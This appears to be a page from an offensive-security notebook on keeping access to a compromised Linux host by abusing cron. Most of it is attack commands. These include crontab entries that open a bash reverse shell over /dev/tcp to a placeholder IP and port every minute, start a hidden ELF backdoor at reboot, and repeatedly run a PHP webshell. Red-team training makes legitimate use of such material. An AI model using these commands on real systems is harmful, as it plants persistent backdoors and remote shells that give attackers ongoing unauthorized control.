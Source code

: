# Cron Jobs

## 01 - Usage

Open an editor via crontab.

`$ sudo crontab -e`

This will execute every minute to trigger the backdoor.

```
$ sudo echo "* * * * * <commands>" >> /etc/crontab

$ echo "* * * * * <commands>" | crontab -

$ crontab -l
```

## 02 - Callback Shells

- Reverse Shell Backdoor

```
$ sudo echo "* * * * * /bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" >> /etc/crontab

$ sudo echo "@reboot nohup /home/<username>/.directory/elf_backdoor" >> /etc/crontab
```

- Webshell backdoor

`$ sudo echo "* * * * * php -f /var/www/html/logout.php" >> /etc/crontab`

## 03 - Reverse SSH Tunnel

TODO: self explanatory

---
## References

- [[Linux Post Exploitation Persistence References]]

- [[Remote Port Forwarding|SSH: Remote Port Forwarding]]

- [Crontab GURU](https://crontab.guru)